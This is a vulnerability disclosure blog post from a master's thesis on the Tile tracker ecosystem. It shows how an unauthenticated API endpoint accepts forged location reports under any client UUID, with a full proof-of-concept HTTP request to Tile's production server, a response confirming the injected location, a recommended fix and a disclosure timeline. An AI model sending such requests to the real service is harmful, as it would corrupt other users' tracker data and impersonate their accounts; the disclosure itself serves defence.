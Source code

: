 ```yaml
---
title: 'Tile - Unauthorized Location Reports with Impersonation'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to send forged location reports while pretending to be another user. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to send forged location reports while pretending to be another user.

# Vulnerability

The API endpoint to upload location reports doesn't properly check the user's session, allowing an unauthenticated attacker to upload location reports for the Tile trackers of other users while pretending to be someone else.

Using this vulnerability, an attacker could effectively make Tile's tracking network (called _Community Find_) unusable for all users on the platform.

It is unclear to what extent the impersonation affects users.
As the attacker is able to specify the client UUID of any user's client, the effect depends on how Tile further processes the client UUID.

# Proof-of-Concept

To upload a fake location report, the attacker must send the request below.
The attacker must either record or know a Bluetooth Low-Energy advertisement of the targeted Tile tracker or create a valid advertisement from the tracker's Tile UUID.
They must specify the advertisement value in the field `payload_service_data` in the request's body.

```http
POST https://locations-prod.tile-api.com/api/v1/clients/:clientUUID/batch_location_updates HTTP/1.1
tile_app_id: android-tile-production
tile_app_version: 2.115.0.5050
tile_request_timestamp: 1702998513342
Content-Type: application/json
Accept: */*
Host: locations-prod.tile-api.com
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 978

{
	"updates": [
		{
			"location": {
				"altitude": 182.5,
				"course": 0.0,
				"course_accuracy": 0.0,
				"horizontal_accuracy": 20.0,
				"latitude": 13.0,
				"longitude": 37.0,
				"speed": 0.0,
				"speed_accuracy": 0.0,
				"timestamp": 1702998513342,
				"vertical_accuracy": 1.1406626
			},
			"record_id": "1",
			"tiles": [
				{
					"advertised_service_data": {
						"mac_address": "[...]",
						"payload_service_data": "[...]",
						"payload_tx_power_level": "0x-80000000",
						"rssi": -53.0
					},
					"discovery_timestamp": 1702998513342,
					"record_id": "1"
				}
			]
		}
	]
}
```

The request demonstrates that it is possible to specify a valid client UUID when sending location reports without any authentication.
Thus, it is possible to impersonate any client.
Note that the request doesn't contain a session cookie.
However, the server still accepts the request.
Moreover, the attacker can specify any client UUID, and the server simply accepts it.
Since the client UUID is linked to a specific account, the attacker can impersonate any user's client.

The following request and response show that the location report sent in the request above was inserted into the device's location history.
It's the location history of the device to which the advertisement referenced in the location report belongs.

```http
GET https://production.tile-api.com/api/v1/tiles/location/history/:tileUUID?start_ts=0 HTTP/1.1
Cookie: session=[...]
[...]: [...]

HTTP/1.1 200 OK
[...]: [...]

{
    "version": 1,
    "revision": 1,
    "timestamp": "2024-03-12T14:47:17.935Z",
    "timestamp_ms": 1710254837935,
    "result_code": 0,
    "result": {
        "complete_history": "Y",
        "location_updates": [
            {
                "tile_uuid": ":tileUUID",
                "location_timestamp": 1710254284721,
                "raw_precision": 20.0,
                "latitude": 13.0,
                "longitude": 37.0,
                "precision": 20.0
            },
            [...]
		]
    }
}
```

# Fix

It is recommended to validate the user's session and reject the request if the session cookie is missing, invalid, or doesn't belong to the specified client UUID.
If unauthenticated location reports should be possible, it is recommended to remove the client UUID from the request URL.
However, these would only fix the impersonation issue.
Fixing the issue of fake location reports requires changes to the entire _Community Find_ network.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
